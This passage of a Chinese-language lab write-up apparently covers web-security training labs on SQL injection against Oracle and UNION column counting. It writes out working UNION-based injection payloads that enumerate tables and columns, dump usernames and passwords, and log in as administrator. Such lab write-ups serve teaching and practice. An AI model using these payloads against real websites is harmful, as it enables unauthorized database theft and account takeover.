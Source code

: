 > 通过这题也可以看出自己对PostgreSQL的表结构并不如MySQL熟悉，要抽空把Oracle、MSSQL、PostgreSQL这几种数据库的表结构熟悉一下。
>

## <font style="color:rgb(0, 19, 80);">SQL injection attack, listing the database contents on Oracle</font>
这题和上题的区别在于这题明说是Oracle数据库：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758092653687-5cf6477d-39bd-4b79-8f19-0865d585f0ce.png)

首先通过`order by`探测到有2列，且构造`?category=Pets' union select '1','2' from dual--+`发现两列都回显。构造`?category=Pets' union select USER,null from dual--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758093656359-49fd274b-1e29-4d47-83ad-64978d762d4d.png)

可以看到当前用户是PETER，继续构造`?category=Pets' union select table_name,null from user_tables--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758093769617-a1b85faf-0b91-48ff-b6b2-ea9348f53236.png)

可以看到当前用户有两个表`PRODUCTS`和`USERS_SAYOPN`，用户信息应该在后者，继续构造`?category=Pets' union select <font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">column_name</font>,null from <font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">user_tab_columns where table_name='USERS_SAYOPN'</font>--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758093903197-30b93382-068d-4104-90b8-dc0165aae40e.png)

我们需要的是后面两个字段的信息，继续构造`?category=Pets' union select <font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">USERNAME_JOCGAC</font>,PASSWORD_BFXAWX from <font style="color:rgb(15, 17, 21);background-color:rgb(235, 238, 242);">USERS_SAYOPN</font>--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758094153423-9c560d8d-0a52-45d3-bcad-5570526d4f54.png)

得到所有数据，以administrator登录：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758094202145-57914e9e-082c-4c20-bd58-225d3cc8b92d.png)

完成。

## <font style="color:rgb(0, 19, 80);">SQL injection UNION attack, determining the number of columns returned by the query</font>
进入靶场，找到注入点：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758094500402-44289862-5456-446e-98a3-61d3615b2da3.png)

用`order by`探测列数发现有3列，构造`?category=Accessories' union select 1,2,3--+`报错，换成`?category=Accessories' union select '111','222','333'--+`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1758094880393-392bb92e-50c0-43c9-8843-5eff694068b8.png)

发现只有第二列会被回显。

按理说本题到此就该结束了，但是没有触发通过的信息。后来才发现本题的标准解法是直接用`union select`探测列数，通过一次次增加`null`，直到没有报错，就有多少列，形如`?category=Accessories' union select null,null,null--+`：
